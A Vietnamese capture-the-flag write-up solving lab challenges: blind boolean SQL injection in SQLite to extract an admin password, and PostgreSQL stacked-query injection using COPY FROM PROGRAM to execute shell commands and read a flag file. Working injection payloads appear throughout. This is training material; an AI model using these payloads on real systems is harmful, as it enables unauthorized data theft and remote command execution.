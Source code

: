 # Mục Lục
- [Simple Blind SQL Injection](https://github.com/toanvunee/Training-KCSC/blob/main/Task-1/cookieArena.md#1-simple-blind-sql-injection)
- [Baby SQL Injection to RCE](https://github.com/toanvunee/Training-KCSC/blob/main/Task-1/cookieArena.md#2-baby-sql-injection-to-rce)
- [Blind Logger Middleware](https://github.com/toanvunee/Training-KCSC/blob/main/Task-1/cookieArena.md#3-blind-logger-middleware)
------------
# 1. Simple Blind SQL Injection

## Đầu bài cho biết
- Lấy mật khẩu của `admin`, sau đấy vào `/login` để lấy flag
- Trường mật khẩu gồm từ a-z, 0-9 và _
- cột `upw`

## Giải

![image](https://github.com/user-attachments/assets/e1d35a2f-51e1-4150-a4c8-f48f13411677)

- Đầu tiên với giao diện có 1 trường nhập UID và 1 truy vấn viết phía bên trên là `SELECT * FROM users WHERE uid='';`
- Thử nhập `admin` vào

![image](https://github.com/user-attachments/assets/5da2f3d6-39cd-47e1-b14d-d2edd088a1f8)

- Thử với uid khác `haha`

![image](https://github.com/user-attachments/assets/144f8979-b72c-4b32-b0f5-3b08d53942db)

- Có thể thấy chức năng này là kiểm tra uid nhập vào là có tồn tại trong database hay không.
- Thử với `'` và `''` thì `''` cho kết quả `not found` còn `'` báo lỗi như này:

![image](https://github.com/user-attachments/assets/a7dc3ce9-4a4d-48e5-8cb3-92347cdd0cfd)

- Chú ý vào `nrows = 1 if query_db("SELECT * FROM users WHERE uid ='%s'" % uid, one=True) else 0`, thì có thể hiểu là nó sẽ lấy thông tin được vào ô `UID` và chèn trực tiếp vào truy vấn SQL, nó bị lỗi vì thừa dấu `'` trong truy vấn làm hỏng cú pháp
- Từ việc chèn trực tiếp đó cùng với thông tin thông báo `exists`, `not found` có thể chắc chắn đấy là Boolean SQLi

- Đầu tiên, thử nhập vào với: `admin' AND 1=1 --`

![image](https://github.com/user-attachments/assets/2069767c-2547-4028-9f61-d2d3eca14e98)

- Thử số cột có trong bảng `users`: `admin' ORDER BY 1 --`, khi thử đến 4 thì có lỗi xảy ra

![image](https://github.com/user-attachments/assets/f57a18cb-b9bb-4229-996f-52872e72fb9e)

- Vậy bảng `users` này có 3 cột
- Biết: 
    + Bảng: users
    + Column: uid, upw, NULL
- Bây giờ cần đi tìm cột này để xác định xem có phải là cột password hay không?
- Với sqlite thì ta có thể thử dùng `name` với `PRAGME_TABLE_INFO(users)` để lấy tên các cột trong bảng (Cái này em hỏi GPT chứ không biết kiếm ở đâu 🤡)
- `admin' AND (SELECT name FROM PRAGMA_TABLE_INFO('users') LIMIT 1) = 'uid' --`

![image](https://github.com/user-attachments/assets/274bb17c-cf12-4e49-8221-f13ee8dbd711)

- Cột đầu tiên không phải là `uid`, ta đổi qua cột khác bằng cách thêm `OFFSET 1`

![image](https://github.com/user-attachments/assets/890ccf2b-d540-45a3-82e5-ec5228c27d48)

![image](https://github.com/user-attachments/assets/a91d28c0-54f6-42ad-bcf3-debca4ac1a7e)

- Vậy cột đầu là cột cần tìm
- Xem độ dài tên cột này rồi Brute Force ra thui:
- Thử độ dài: `admin' AND (SELECT LENGTH(name) FROM PRAGMA_TABLE_INFO('users') LIMIT 1 OFFSET 0) = 3 --`

![image](https://github.com/user-attachments/assets/92138a38-5eb8-4a35-bec9-4367a4c16750)

- Dùng SUBSTRING() để Brute Force ra: `admin' AND (SELECT SUBSTRING(name, 1, 1) FROM PRAGMA_TABLE_INFO('users') LIMIT 1 OFFSET 0) = 'a' --`

![image](https://github.com/user-attachments/assets/43e68417-cea6-4da2-b6a2-25f9b96c675c)

- Ta được tên cột là `idx`, trong 3 cột thì cái có khả năng là mật khẩu nhất là `upw`
- Ta thử lấy thông tin của `upw` với `uid = admin`: `admin' AND (SELECT SUBSTRING(upw, 1, 1) FROM users WHERE uid = 'admin') = 'a' --`
- Rồi lại đưa lên Intruder để Brute Force nó

![image](https://github.com/user-attachments/assets/4b65567c-b760-4e75-b342-5e17ab96d7eb)

- Chuyển qua `/login` và đăng nhập với username = `admin` và pass = `y0u_4r3_4dm1n`

![image](https://github.com/user-attachments/assets/541b7fba-906d-4bc4-b231-9bed994354f8)

# 2. Baby SQL Injection to RCE

## Đầu bài cho biết
- Challenge đang chạy với PostgreSQL and PHP.
- Flag File: /flagXXXX.txt

## Hint
- Sử dụng Stacked Query: là việc có thể sử dụng nhiều câu truy vấn bằng cách ngăn cách giữa các câu truy vấn bằng dấu ';'

![image](https://github.com/user-attachments/assets/fca0de01-a3f1-463c-b405-30f503ab6a75)

## Giải

![image](https://github.com/user-attachments/assets/c6daf554-ff8e-498f-9ff7-d7bc60b5aee9)

- `'OR 1=1 --` có thể khai thác được lỗ hổng SQL ở đây

![image](https://github.com/user-attachments/assets/99efbf7f-791c-468a-8585-822bcb9dab15)

- Mục tiêu của mình là dựa vào lỗ hổng này để tìm và mở được 1 file là `flagXXXX.txt` và lấy flag trong file đó
- Quan sát thì thấy, khi nhập username hoặc pass thì nó chỉ có 2 trường hợp xảy ra:

![image](https://github.com/user-attachments/assets/a03a8305-8809-4770-ad28-b7f77d5f245a)
![image](https://github.com/user-attachments/assets/362232fe-47e6-4aa4-b134-707a9e32e0b9)

- Ở đây khá chắc là Boolean SQli
- Vì ở đây nó không cho ta biết được kết quả của chuỗi truy vấn nên ta không thể trực tiếp chèn các hàm như `pg_read_file()`, `cat` đêr trực tiếp đọc file này. Mặt khác, ta cũng không có tên của file flag để đọc 😃
- Vậy là bây giờ cần:
    + Tạo ra 1 bảng mới
    + Lấy tên tất cả các file đưa vào bảng mới tạo
    + Dùng cách dò đúng sai để biết được các tên file flag cần tìm
- Tạo bảng mới: `admin'; CREATE TABLE abc(aaa text);--`
    + ![image](https://github.com/user-attachments/assets/32ade69b-5395-4239-943b-c3e676a737ad)
    + Gửi lại lần 2 để xác nhận bảng `abc` đã tồn tại
- Đưa tất cả tên file vào trong bảng `abc` vừa tạo: `admin'; COPY abc FROM PROGRAM 'ls / -m';--` (Với `ls / -m`) để đưa tất cả tên file vào 1 dòng duy nhất
- Brute force từng chữ: `admin' OR (SELECT SUBSTRING(aaa,1,1) FROM abc LIMIT 1) = 'a'--`
    + Nếu ra `Welcome, admin...` thì là đúng
    + Ra `Invalid username or password!` thì ký tự đó sai
- Đưa vào Intruder:
![image](https://github.com/user-attachments/assets/f72ef139-71ac-4093-a639-c2c6a3b3b337)

- Vậy là ta kiếm được tên file là `flags3JDE.txt`
- Tương tự với cách trên, ta tạo 1 bảng chứa nội dung của file `flags3JDE.txt`
    + `'; CREATE TABLE efg(sss text);--`
    + `'; COPY efg FROM PROGRAM 'cat flags3JDE.txt';--`
    + Rồi tương tự dùng brute force để đọc lại bảng `efg`: `' OR (SELECT SUBSTRING(sss,1,1) FROM efg LIMIT 1) = 'a'--`







# 3. Blind Logger Middleware

